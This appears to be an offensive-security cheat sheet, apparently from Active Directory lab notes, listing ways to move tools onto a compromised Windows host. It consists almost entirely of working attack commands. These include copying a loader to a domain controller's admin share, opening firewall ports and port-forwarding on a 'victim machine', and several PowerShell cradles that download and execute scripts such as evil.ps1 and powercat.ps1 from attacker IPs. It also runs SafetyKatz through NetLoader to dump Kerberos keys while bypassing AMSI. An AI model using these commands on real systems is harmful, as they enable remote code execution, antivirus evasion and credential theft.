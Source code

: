 # Transfer files

### SMB Shares

```batch
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y 
```

### HTTP Server

Serve the files using [hfs ](https://www.rejetto.com/hfs/?f=dl)or http simple server

```batch
:: Attacker Machine
python3 -m http.server -port 80
:: Open the port where the files are hosted. Need Admin Access
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
:: Verify if port is open or closed
netstat -an
```

Port forward to avoid firewall using netsh on target machine

```batch
:: Victim Machine
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=172.16.100.x
```

Download the file on target machine

```powershell
# Download and store
(New-Object Net.WebClient).DownloadFile('http://127.0.0.1:8080/<File>', '<Dest Path>')

# Download and execute
iex ((New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/<File>'));

# NetLoader to execute and bypass amsi
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

More options

{% code overflow="wrap" %}
```powershell
# Internet Explorer Downoad cradle
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response


$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```
{% endcode %}

PowerShell v3+

```powershell
# UseBasicParsing is important sometime
iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)
iex (iwr 'http://192.168.230.1/evil.ps1')
```
